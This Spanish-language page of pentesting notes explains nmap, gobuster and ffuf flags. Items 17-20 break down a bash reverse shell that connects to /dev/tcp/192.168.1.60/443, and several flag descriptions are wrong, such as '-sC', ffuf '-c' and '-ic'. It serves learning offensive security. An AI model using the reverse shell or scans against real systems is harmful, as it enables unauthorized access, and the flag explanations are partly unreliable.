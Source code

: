 **1. “-sS”:**
  - este parámetro nos permite hacer un sondeo Tcp pero no establecer conexión En vez de “SYN>SYN/ACK>ACK” hace un “SYN>SYN/ACK/RST” El rst es para cerrar conexión, como no se ha esablecido conexión normalmente no se guarda en los logs ni rastro en los firewalls.
    
**2.	“-p-“**
  - Con esto le indicamos que nos escanee los 65535 puertos totales que hay
     
**3. “—open”** 
  -	para que nos muestre solo los puertos abiertos y que ignore los filtrados,
    
**4. “-T5”** 
  - Este nos permite modificar la plantilla de temporizado del escaneo, existen 5 modos : paranoico (0), sigiloso (1), amable (2), normal (3), agresivo (4) y loco (5), Los 2 primeros reducen el sondeo tcp para que utilize menos ancho de banda. La 0 sondea 1 puerto a la vez, y espera 5 min antes de enviar cada sonda, el 1 y el 2 son similares, esperan 0.4 segundos entre sondas, el 3 (uso por defecto de nmap) hace sondeos en paralelo, el 4 y el 5 envian sondas cada 5 ms, lo único que les diferencian es el tiempo que esperan para recibir la respuesta de el sondeo TCP.
    
**5. “—min-rate 5000”**
  -	Nos permite especificar la cantidad mínima de paquetes que se envían por segundo, por lo que he investigado el numero que menos falsos positivos y falsos negativos da se encuentra entre el 5000-5800.
    
**6. ”-n”** 
  -	Le indicamos que no queremos que nos haga la resolución DNS al host, básicamente pregunta a los servidores DNS cual es el dns del host (nslookup), lo que ocurre es que la resolución hace muy lento el escaneo por lo que lo desactivamos ya que si queremos hacer resolución dns lo podemos hacer manualmente.
    
**7. “-Pn”**
  - En este caso le indicamos que no lance trazas icmp al host, ya que normalmente antes de un escaneo nmap envia trazas icmp para determinar si el host está activo o no, lo que ocurre es que ralentiza mucho el escaneo por lo que lo deshabilitamos ya que si queremos determinar si el host esta vivo tenemos muchísimos otros métodos incluso si las trazas icmp están bloqueadas por firewall físico o de sistema operativo.
    
**8. “-oG”**
  - Le indicamos que nos ponga el output en un archivo en formato grepeable para que después cuando lo pase por una función de mi zshrc me copie al portapapeles los puertos abiertos
    
**9. “-vvv”**
  -	Es para ponerlo en verbose mode, básicamente que mientras está haciendo el escaneo nos muestre que puertos encuentra abiertos
    
**10. “-sC”**
  -	Nos permite detectar que servicios están corriendo en los puertos abiertos
    
**11. “-sV”**
  -	Nos permite detectar la versión de los servicios que estan ejecutándose en los puertos lo que nos permite encontrar vulnerabilidades
    
**12. “-oN”**
  -	Es para exportarlo en formato Nmap por si después tenemos que volver a analizarlo.

**13.	“-u”**
  -	Es para indicarle el url victima
  	
**14.	“-w”**
  -	Es para indicarle el diccionario para la fuerza bruta, en este caso utilizo un que ya esta creado llamado “SecLists” que es un conjunto de diccionarios para hacer fuerza tanto como subdominios, fuzzing, etc.
    
**15. “-t”**
  - Es para indicarle los hilos de el proceso (Cuantas tareas a la vez debe ejecutar a la vez (en este caso 400)

**16. “-x”**
  - Es para indicarle que extensiones específicas quiero que me reporte que ha encontrado en algún directorio.
    
**17.	“bash -c”**
  -	Primero lo que hacemos es asegurarnos que el comando se ejecuta con bash y no con otro tipo de Shell, ya que sinó no funcionará.

**18.	“bash -i”**
  -	Ejecutamos una bash interactiva, ya que bash -c solo nos permite ejecutar comandos, como por ejemplo: “whoami”, pero este no nos permite ejecutar nada más, por esa razón una bash interactiva nos deja poner comandos todas las veces que queramos y recibir el output.
    
**19.	“>&”**
  -	Con estos caracteres especiales redirigimos el stdrr y el stdout a nuestro equipo
    -	“/dev/tcp/192.168.1.60 /443”
  - En este caso “/dev/tcp” está siendo utilizado para entablar por tcp una conexión con nuestra ip por el puerto 443
    
**20.	“0>&1”**
  -	Redirige el stdin a stdout, esto se hace para que se pueda interactuar con una Shell en remoto mediante la conexión establecida.
  -	Esta redirección es utilizada para hacer que la entrada estándar del proceso Bash (que normalmente se recibiría del teclado) esté conectada a la misma ubicación que la salida estándar. Esto significa que cualquier entrada que se escriba en la sesión de la shell se transmitirá a través de la misma conexión que se ha establecido con la dirección IP y puerto especificados. Esto permite la interacción bidireccional con la shell remota a través de la conexión de red establecida.

**21. ffuf**
  - Es el comando principal ya que es la herramienta que vamos a utilizar.

**22. -c**
  - Con este parámetro haremos que siga automáticamente las redirecciones HTTP y HTTPS.

**23. -u
  - Este paramettro hacemos especificar una URL para hacer la fuerza bruta.
    
**24. -w**
  - Especificamos la ubicación del archivo de palabras que utiliza la herramienta ffuf para realizar la fuerza bruta, ese archivo se llama common.txt, ubicado en /usr/share/wordlists/dirb.

**25. -ic**
  - Con este parámetro hacemos que los códigos en estado HTTP no se distinga entre mayúsculas y minúsculas.
    
**26. -fc 403**
  - Con este parámetro escogemos que queremos filtrar durante el escaneo en este caso queremos las respuestas de 403 (Forbidden).
    
**27. -e**
  - Este parámetro lo utilizaremos para decir que archivos queremos que nos filtre, en este caso seria .txt y .html

